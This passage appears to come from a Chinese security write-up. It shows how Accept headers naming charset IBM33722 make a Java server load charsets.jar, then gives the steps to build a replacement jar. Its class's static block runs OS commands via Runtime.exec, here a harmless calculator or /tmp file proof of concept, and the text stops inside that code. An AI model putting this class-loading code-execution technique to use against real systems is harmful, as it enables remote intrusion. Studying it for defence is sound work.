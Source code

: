 ![](https://typora-202017030217.oss-cn-beijing.aliyuncs.com/typora/image-20241218171442469.png)



总结，下面两个Accept都能触发加载charsets.jar字符集

```
Accept: multipart/form-data;charset=IBM33722;
Accept: text/html;charset=IBM33722;
```



### 复现

先看看正常的charsets.jar，一般会在jdk/jre/lib下

![](https://typora-202017030217.oss-cn-beijing.aliyuncs.com/typora/image-20241218175849919.png)

直接解压了重新开个idea打开就行了

目录如下：

![](https://typora-202017030217.oss-cn-beijing.aliyuncs.com/typora/image-20241218190526587.png)

随便选一个sun.nio.cs.ext下的类进行覆盖就OK，为了保持最小体积，抛弃其他类（需要保留ExtendedCharsets类，不然无法加载其他类）。这里就选择覆盖sun.nio.cs.ext.IBM33722

Charset.forName加载类时，会完成类的初始化，进而触发static代码块

```java
package sun.nio.cs.ext;

import java.util.UUID;


public class IBM33722 {
    static {
        fun();
    }

    public IBM33722(){
        fun();
    }

    private static java.util.HashMap<String, String> fun(){
        String[] command;
        String random = UUID.randomUUID().toString().replace("-","").substring(1,9);
        String osName = System.getProperty("os.name");
        if (osName.startsWith("Mac OS")) {
            command = new String[]{"/bin/bash", "-c", "open -a Calculator"};
        } else if (osName.startsWith("Windows")) {
            command = new String[]{"cmd.exe", "/c", "calc"};
        } else {
            if(new java.io.File("/bin/bash").exists()){
                command = new String[]{"/bin/bash", "-c", "touch /tmp/charsets_test_" + random + ".log"};
            }else{
                command = new String[]{"/bin/sh", "-c", "touch /tmp/charsets_test_" + random + ".log"};
            }
        }
        try{
            Runtime.getRuntime().exec(command);
        }catch (Throwable e1){
            e1.printStackTrace();
        }
        return null;
```